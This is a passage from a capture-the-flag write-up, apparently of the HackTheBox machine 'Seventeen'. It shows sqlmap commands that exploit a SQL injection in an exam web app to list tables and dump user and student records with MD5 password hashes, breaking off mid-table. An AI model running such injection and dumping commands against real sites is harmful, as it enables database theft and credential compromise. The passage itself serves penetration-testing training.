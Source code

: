 I couldn’t find a way to past that Login form, but I do have access to the
`db_sfms` via the SQL injection, which turns out to be related to this page:

    
    
    oxdf@hacky$ sqlmap -D db_sfms --tables -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch --threads 10
    ...[snip]...        
    Database: db_sfms
    [3 tables]
    +---------+
    | storage |
    | user    |
    | student |
    +---------+
    ...[snip]...
    

I’ll dump the tables. `user` is interesting since I’m trying to log in:

    
    
    oxdf@hacky$ sqlmap -D db_sfms -T user --dump -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch --threads 10
    ...[snip]...
    Database: db_sfms
    Table: user
    [3 entries]
    +---------+---------------+---------------+------------------+---------------+----------------------------------+
    | user_id | status        | lastname      | username         | firstname     | password                         |
    +---------+---------------+---------------+------------------+---------------+----------------------------------+
    | 1       | administrator | Administrator | admin            | Administrator | fc8ec7b43523e186a27f46957818391c |
    | 2       | Regular       | Anthony       | UndetectableMark | Mark          | b35e311c80075c4916935cbbbd770cef |
    | 4       | Regular       | Smith         | Stev1992         | Steven        | 112dd9d08abf9dcceec8bc6d3e26b138 |
    +---------+---------------+---------------+------------------+---------------+----------------------------------+
    ...[snip]...
    

Each user has an MD5 hash as their password. Admin and Mark share their
passwords from ERMS. Still, to log in, I need a student number and a password,
which isn’t what’s in this table.

The `student` table has what I’m looking for:

    
    
    oxdf@hacky$ sqlmap -D db_sfms -T student --dump -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch --threads 10
    ...[snip]...
    Database: db_sfms
    Table: student
    [4 entries]
    +---------+----+--------+---------+----------+----------------------------------------------------+-----------+
    | stud_id | yr | gender | stud_no | lastname | password                                           | firstname |
    +---------+----+--------+---------+----------+----------------------------------------------------+-----------+
    | 1       | 1A | Male   | 12345   | Smith    | 1a40620f9a4ed6cb8d81a1d365559233                   | John      |
    | 2       | 2B | Male   | 23347   | Mille    | abb635c915b0cc296e071e8d76e9060c                   | James     |